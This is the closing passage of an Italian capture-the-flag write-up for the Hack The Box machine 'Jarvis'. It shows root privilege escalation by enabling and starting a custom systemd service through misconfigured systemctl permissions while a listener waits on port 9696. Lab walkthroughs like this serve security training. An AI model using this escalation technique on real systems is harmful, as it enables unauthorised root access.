 ```text
/bin/systemctl enable /home/pepper/root.service
```

Poi avvio un listener sulla porta 9696 e lancio questo comando sulla macchina _jarvis_:

```text
/bin/systemctl start root
```

<p align="center">
  <img src="/Immagini/Linux-Box/Jarvis/jarvis-14.png"/>
</p>

**Sono root!**

## Credits
  - [Samuel Whang](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)
  - [Rana Khalil](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/jarvis-writeup-w-o-metasploit#b8df)
